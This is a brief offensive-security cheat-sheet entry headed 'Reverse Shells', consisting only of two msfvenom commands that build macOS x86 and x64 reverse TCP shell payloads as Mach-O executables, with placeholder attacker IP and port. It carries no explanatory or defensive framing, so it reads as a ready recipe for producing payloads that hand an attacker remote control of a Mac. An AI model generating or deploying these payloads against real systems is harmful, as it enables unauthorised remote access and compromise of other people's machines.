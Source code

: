 # Reverse Shells

`$ msfvenom -p osx/x86/shell_reverse_tcp lhost=<IP> lport=<PORT> -f macho -o shell_x86`

`$ msfvenom -p osx/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f macho -o shell_x64`